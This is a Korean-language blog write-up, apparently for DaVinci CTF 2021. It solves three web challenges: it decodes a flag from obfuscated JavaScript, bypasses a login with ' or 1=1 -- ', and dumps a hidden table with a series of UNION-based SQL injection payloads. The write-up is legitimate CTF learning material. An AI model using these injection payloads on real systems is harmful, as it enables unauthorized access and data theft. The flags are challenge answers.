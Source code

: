 ```yaml
---
layout: post
title:  "DaVinci CTF 2021 Writeup"
tags: [DaVinciCTF,CTF-2021,CTF]
excerpt: "DaVinciCTF 2021 Writeup"
---
```


## Obfuscation

```
+ Description
    + My password is my secret. You will never find it...
    + To validate this chall, please enter the secret code as the flag.

+ Link
    + http://challs.dvc.tf:5555/
```

+ #### 문제 분석 & 문제 풀이

    문제 링크에 들어가보면

    ![main page](/post-images/DaVinciCTF/2021/WEB/Obfuscation/main-page.png)

    ``If you know it, enter my secret :`` 이라는 텍스트와 입력할 수 있는 공간이 있다.

    한번 테스트로 test를 입력한 다음 Send버튼을 누르면

    하단에 ``HEHE my secret is well kept !`` 이라는 메세지가 나옵니다.

    자세하게 살펴보기 위해

    ``우클릭 -> 페이지 소스 보기`` 로 해당 페이지의 소스코드를 살펴보면 ``<script>`` 태그 안에

    ```js
    var _0x562c=['179dYsldU','502577NKwytj','49301uPrsBV','%64%76%43%54%46%7b%31%74%5f%69%73%5f%6e%30%74%5f%34%5f%73%65%63%72%33%74%5f%34%6e%79%6d%30%72%33%7d','41567Xaicqe','getElementById','2IMuDQu','secret','result','111HrUPrb','238340OvJqoS','1XVHayx','innerHTML','OOO\x20NO\x20you\x20have\x20found\x20my\x20secret\x20!','353385nZcsex','value','1UUUnkm','110191GWccce'];var _0x5ae8=function(_0x34f242,_0x4f6807){_0x34f242=_0x34f242-0x175;var _0x562c5a=_0x562c[_0x34f242];return _0x562c5a;};(function(_0x10ab78,_0x2dad39){var _0x48e1e3=_0x5ae8;while(!![]){try{var _0x2dbbea=parseInt(_0x48e1e3(0x180))+-parseInt(_0x48e1e3(0x181))*parseInt(_0x48e1e3(0x178))+parseInt(_0x48e1e3(0x17d))*parseInt(_0x48e1e3(0x183))+-parseInt(_0x48e1e3(0x177))+parseInt(_0x48e1e3(0x17b))+-parseInt(_0x48e1e3(0x176))*parseInt(_0x48e1e3(0x17f))+-parseInt(_0x48e1e3(0x185))*parseInt(_0x48e1e3(0x17e));if(_0x2dbbea===_0x2dad39)break;else _0x10ab78['push'](_0x10ab78['shift']());}catch(_0x4df530){_0x10ab78['push'](_0x10ab78['shift']());}}}(_0x562c,0x5a3e5));function testSecret(){var _0x56a5a8=_0x5ae8,_0x3ee8ed=_0x56a5a8(0x182),_0x14130d=document[_0x56a5a8(0x184)](_0x56a5a8(0x186))[_0x56a5a8(0x17c)];_0x14130d==unescape(_0x3ee8ed)?document[_0x56a5a8(0x184)](_0x56a5a8(0x175))[_0x56a5a8(0x179)]=_0x56a5a8(0x17a):document[_0x56a5a8(0x184)](_0x56a5a8(0x175))[_0x56a5a8(0x179)]='HEHE\x20my\x20secret\x20is\x20well\x20kept\x20!';}
    ```

    코드 해석하기 어렵게 난독화되어있는 js코드가 있는것을 볼 수 있습니다.

    근데 ``_0x562c`` 변수에 URL Encode되어있는 값이 있는것을 보고 의심이 들어서

    ```
    %64%76%43%54%46%7b%31%74%5f%69%73%5f%6e%30%74%5f%34%5f%73%65%63%72%33%74%5f%34%6e%79%6d%30%72%33%7d
    ```
    [urlencoder](https://www.urldecoder.org/) 사이트에 들어가서 url decode해보니

    ``dvCTF{1t_is_n0t_4_secr3t_4nym0r3}`` 이렇게 FLAG가 나오게 됩니다.

``Flag is dvCTF{1t_is_n0t_4_secr3t_4nym0r3}``


* * *

## Authentication

```
+ Description
    + Can you find a way to authenticate as admin?

+ Link
    + http://challs.dvc.tf:1337/
```

+ #### 문제 분석 & 문제 풀이

    문제 링크에 들어가면 디자인 이쁘게 되어있는 로그인 페이지가 나오게됩니다.

    ![Authentication main page](/post-images/DaVinciCTF/2021/WEB/Authentication/Authentication.png)

    이 문제 설명은 ``Can you find a way to authenticate as admin?`` 즉 admin으로 인증하는 방법을 찾아보라고 한다.

    로그인은 대부분 SQL Injection기법을 사용하는 경우가 많은데 아이디와 비번을 모르니

    Username에 ``' or 1=1 -- '`` 를 넣고 Password에 아무거나 입력하면

    ![Login](/post-images/DaVinciCTF/2021/WEB/Authentication/admin-login.png)

    성공적으로 admin 유저로 로그인되는것을 볼 수 있습니다. 

    하지만 플래그가 바로 안보이는데

    ``우클릭 -> 페이지 소스보기``를 누르면 하단에

    ```html
    <p style="visibility: hidden;">dvCTF{!th4t_w4s_34sy!}</p>
    ```
    
    플래그가 나와있는것을 볼 수 있습니다.
    
    ``dvCTF{!th4t_w4s_34sy!}``

``Flag is dvCTF{!th4t_w4s_34sy!}``

* * *

## Member

```
+ Description
    + Can you get more information about the members?

+ Link
    + http://challs.dvc.tf:1337/members
```

* * *

+ #### 문제 분석

    이 문제는 Authentication문제와 url이 같은데 Authentication문제를 풀어야지 접근이 가능한것 같다.

    로그인이 되어있는 상태에서 ``/member``으로 접근하면

    ![member](/post-images/DaVinciCTF/2021/WEB/Members/members.png)

    Name를 검색하는 부분과 다양한 유저의 데이터들이 나열되어있습니다.

+ #### 문제 풀이

    이 문제 또한 SQLi라고 예측하고 UNION BASED SQL Injection를 시도하여 db 정보를 탈취 하겠습니다.

    ```sql
    ' or 1=1 -- '
    " or 1=1 -- "
    x" UNION SELECT 1 -- "
    x" UNION SELECT 1,2 -- "
    x" UNION SELECT 1,2,3 -- "
    x" UNION SELECT database(),2,3 -- "
    x" UNION SELECT (select group_concat(table_name) from information_schema.tables where table_schema=database()),2,3 -- "
    x" UNION SELECT (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="members"),(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="supa_secret_table"),3 -- "
    x" UNION SELECT (select group_concat(flag) from supa_secret_table),2,3 -- "
    ```

    먼저 SQL구문을 확인하기 위해 ' 또는 " 으로 시도한 다음
    데이터베이스, 테이블, 컬럼을 알아내고 flag 컬럼이 있는것을 보고 

    ```sql
    x" UNION SELECT (select group_concat(flag) from supa_secret_table),2,3 -- "
    ```

    이 SQL 구문으로 FLAG 컬럼에 있는 데이터를 볼 수 있게 구문을 완성 시키면

    ![flag](/post-images/DaVinciCTF/2021/WEB/Members/flag-get.png)

    이렇게 Name 부분에 ``dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}`` 플래그를 탈취하게 됩니다.

``Flag is dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}``

## 후기

시간이 많이 없어서 3문제밖에 못풀었지만
풀지 못한 문제들의 롸업들을 보면서 LDAP injection에 대해 알게됐다.

+ [ctftime](https://ctftime.org/event/1296)

<br>